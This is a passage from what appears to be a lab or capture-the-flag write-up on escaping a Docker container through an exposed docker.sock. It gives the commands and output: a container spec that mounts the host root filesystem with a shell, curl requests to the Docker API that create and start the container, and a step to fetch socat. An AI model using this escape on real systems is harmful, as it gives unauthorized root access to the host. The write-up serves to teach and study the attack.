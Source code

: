 ```bash
        "SharedSize": -1,
        "Size": 1056679100,
        "VirtualSize": 1056679100
    }
]
```

Seems like there is a image called `sandbox:latest` available. Next, let us create the container. For this, we first write a json file (ease of use) and then make our requests to the API.

The json data looks as follows:

```json
{
    "Image": "sandbox",
    "Cmd": [
        "/bin/sh"
    ],
    "DetachKeys": "Ctrl-p,Ctrl-q",
    "OpenStdin": true,
    "Mounts": [
        {
            "Type": "bind",
            "Source": "/", # Host-fs root-directory
            "Target": "/mnt/host" # Specifying that the Source (Host-fs root dir) should be mounted into /mnt/host 
        }
    ]
}
```

Let us write this json data to a file.

```bash
root@2d24bf61767c:~# echo -e '{"Image":"sandbox","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","OpenStdin":true,"Mounts":[{"Type":"bind","Source":"/","Target":"/mnt/host"}]}' > container.json
```

Next, we create the container, specified by the json-data.

```bash
root@2d24bf61767c:~# curl -s -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d "$(cat container.json)" http://localhost/containers/create
{"Id":"d4037330826e91b4dae09e68fb97e6233ae04a8069b53a364c3f7d2dab72e633","Warnings":[]}
```

We have successfully created the container. We need to save the ID for later usage.

Next, we start the container.

```bash
root@2d24bf61767c:~# curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/d4037330826e91b4dae09e68fb97e6233ae04a8069b53a364c3f7d2dab72e633/start
```

Now in order to interact with the container, we need to install [socat](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat), we can get a statically build version from [this GitHub](https://github.com/andrew-d/static-binaries).
